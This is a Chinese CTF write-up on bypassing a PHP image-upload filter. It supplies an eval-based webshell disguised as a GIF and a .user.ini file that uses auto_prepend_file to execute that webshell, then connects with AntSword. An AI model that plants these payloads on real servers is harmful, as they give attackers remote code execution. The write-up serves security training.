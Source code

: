 ```
    $tmp_name = $_FILES["fileUpload"]["tmp_name"];
    $name = $_FILES["fileUpload"]["name"];
    if (!$tmp_name) {
        die("filesize too big!");
    }
    if (!$name) {
        die("filename cannot be empty!");
    }
    $extension = substr($name, strrpos($name, ".") + 1);
    if (preg_match("/ph|htacess/i", $extension)) {
        die("illegal suffix!");
    }
    if (mb_strpos(file_get_contents($tmp_name), "<?") !== FALSE) {
        die("&lt;? in contents!");
    }
    $image_type = exif_imagetype($tmp_name);
    if (!$image_type) {
        die("exif_imagetype:not image!");
    }
    $upload_file_path = $userdir . "/" . $name;
    move_uploaded_file($tmp_name, $upload_file_path);
    echo "Your dir " . $userdir. ' <br>';
    echo 'Your files : <br>';
    var_dump(scandir($userdir));
} 
```

PHP判断文件是否为图片的函数为：`exif_imagetype();`
也就是说这个题只能上传。
这里要使用图片马，制作方式详见[图片马的制作](https://blog.csdn.net/weixin_53549425/article/details/118071737?spm=1001.2014.3001.5501)，在这里我问就不赘述了。
注意本题对<?进行了过滤，所以在webshell的选择上应该替换掉<?，
这里有一个我的webshell供大家使用。
`GIF89a? <script language="php">eval($_REQUEST[feng])</script>`

但是发现无法上传，看了大佬博客后有所领悟，需要用到user.ini，这里有一个讲的非常好的[大佬博客](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)
简单来说就是：user.ini是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。
**auto_prepend_file 或 auto_append_file**

auto_prepend_file 在页面顶部加载文件
auto_append_file 在页面底部加载文件
什么意思呢，`相当于在每个php页面加上一句 include() ，可以在PHP中加载执行另一个PHP文件。`
`注意，是每个，也就是说只要有 PHP 文件被加载，就会去加载执行这个文件，而且是以 PHP 的方式解析。`
所以，我们上面绕过了了文件验证，上传了一个 .user.ini 文件，再上传一个图片马，让被执行的 PHP 文件去包含执行我们的图片马，就可以用蚁剑连接来得到flag。
1、制作user.ini

```
GIF89a
auto_prepend_file=test.jpg 
```

![在这里插入图片描述](img/0749a5c13feb00ec7307f01b9c83a64e.png)
